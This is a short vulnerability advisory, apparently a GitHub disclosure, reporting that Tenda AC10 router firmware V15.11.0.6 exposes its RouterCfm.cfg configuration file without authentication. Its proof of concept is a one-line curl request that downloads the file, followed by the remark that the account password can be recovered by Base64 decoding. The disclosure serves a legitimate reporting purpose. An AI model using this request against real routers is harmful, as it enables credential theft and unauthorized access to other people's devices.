


**Affected Product**: Tenda AC10 Router

**Affected Firmware Versions**:  V15.11.0.6(1068_1546_841)

**Vulnerability Type**: Sensitive Information Leakage

------
### **Vulnerability Description**

The firmware V15.11.0.6 (1068_1546_841) of the Tenda AC10 enterprise router contains an information leak. The RouterCfm.cfg configuration file can be read without authorization, leading to the leakage of sensitive information such as account passwords.

---
### **PoC**
`curl http://hostIp:port/cgi-bin/DownloadCfg/RouterCfm.cfg`

The password can be obtained by Base64 decoding.
